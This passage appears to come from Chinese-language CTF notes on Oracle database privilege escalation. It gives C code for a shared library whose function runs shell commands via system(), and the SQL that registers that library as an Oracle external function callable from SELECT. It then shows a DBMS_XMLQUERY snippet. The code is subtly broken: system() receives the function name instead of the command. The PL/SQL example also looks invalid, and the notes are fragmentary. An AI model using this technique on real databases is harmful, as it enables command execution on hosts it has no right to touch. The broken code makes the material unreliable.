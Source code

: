```sql
SELECT CallSampleFunction FROM dual;
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811716061-91086609-64f4-4a2e-a80b-0d7a8a6b8593.png#averageHue=%23131313&clientId=ueb947172-4289-4&from=paste&height=130&id=u28e6f59e&originHeight=117&originWidth=699&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=6200&status=done&style=none&taskId=u1ad961ab-37a4-44bc-aa9a-2cc448053ab&title=&width=776.6666872413075)
![](./%E4%BA%AC%E9%BA%92CTF%E8%A1%A5%E5%AE%8C%E8%AE%A1%E5%88%92/1703145157544.png#id=hjC0x&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
## 外部lib

```sql
#include <stdio.h>
#include <stdlib.h>
#include <exp.h>

char* cmd(char* command){
    system(cmd);
    return "1";
}
```

```sql
#ifndef exp_h_
#define exp_h_

extern char* cmd(char* command)
#endif
```

编译成so

```sql
create or replace lib as '/path/to/so';
```

```sql
create or replace function cmd(str varchar2) return varchar2 as language c library lib name "cmd";
```

随后使用select调用.

## dbms_xmlquery

[Oracle数据库提权 - micr067 - 博客园 (cnblogs.com)](https://www.cnblogs.com/micr067/p/12763325.html)

**使用 XMLType 创建 XML 对象：**

在使用 `DBMS_XMLQUERY` 之前，通常需要将 XML 文档存储为 `XMLType` 对象。可以使用 `XMLType` 构造函数或 `XMLType.createXML` 方法。

```sql
DECLARE
  xml_document XMLType := XMLType('<root><element>Value</element></root>');
  result XMLType;
BEGIN
  result := DBMS_XMLQUERY.PARSE(xml_document, '/root/element/text()');
  DBMS_OUTPUT.PUT_LINE('Result: ' || result.getStringVal());
END;
/
```
